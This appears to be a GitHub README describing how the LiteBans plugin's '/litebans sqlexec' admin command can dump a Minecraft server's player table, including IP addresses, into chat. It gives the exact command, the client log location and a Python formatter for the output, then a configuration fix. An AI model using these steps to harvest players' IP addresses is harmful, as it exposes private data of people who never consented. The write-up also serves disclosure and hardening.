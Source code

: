 # LiteBans IP Database Dump Exploit

**Overview**

LiteBans is a popular and paid banning plugin for server moderators and administrators.

MySQL is one of the most used database management systems, used to store data in tables. MySQL supports SQL queries, which are commands or statements that access or modify data in a database.

Examples of SQL queries:
- `SELECT * FROM my_table;` returns everything that is stored in the table `my_table`
- `SELECT email, password FROM my_table;` returns emails and passwords that is stored in the table `my_table`

**Analysis**

When installing LiteBans on your server, the plugin creates a local MySQL server for storing player data and punishments.

A feature in the plugin makes you able to execute SQL queries through an ingame command. You can exploit this feature, to dump the server's player data database. Of course, this command requires administrator permissions to use.

The plugin creates seven tables in the database:
- litebans_bans
- litebans_history
- litebans_kicks
- litebans_mutes
- litebans_servers
- litebans_sync
- litebans_warnings

The table `litebans_history` contains all player data (last seen date, username, UUID and IP-address), which is the table you want to dump.

**Exploitation**

Simply execute the command `/litebans sqlexec SELECT * FROM litebans_history;`. The command will execute the SQL query and take everything that is stored in the SQL table `litebans_history` and display it in the ingame chat.

To get the database content, go to the latest client log file located at `%APPDATA%\.minecraft\logs\latest.log` and copy the dumped database table from start to bottom.

You can use this simple Python tool to format the database:
```python
def main():
    lines = [x.strip() for x in open(input("Database path > "), encoding="utf-8", errors="ignore").readlines() if x.strip()]
    with open("out.txt", "w") as file:
        for line in lines:
            file.write(line.split("[CHAT] ")[1] + "\n")

if __name__ == "__main__":
    main()
```

**Prevention**

In the update LiteBans 2.3.10 - 2.3.15, a security patch was added. The configuration `security.sqlexec` was now set to true by default, which means only the console can use the sqlexec feature.

To prevent your server from getting its database dumped, set the security feature `security.sqlexec` to true in the configuration file of LiteBans located at `./plugins/LiteBans/config.yml`.

This configuration change will block players from using the command `/litebans sqlexec`.

```yaml
security:
  # If enabled, only the console can see IP addresses in /dupeip output.
  # This does not prevent players from using /dupeip. It only prevents them from seeing IP addresses.
  dupeip: true
  # If enabled, only the console can use /iphistory.
  iphistory: true
  # If enabled, only the console can use "/litebans sqlexec".
  sqlexec: true
```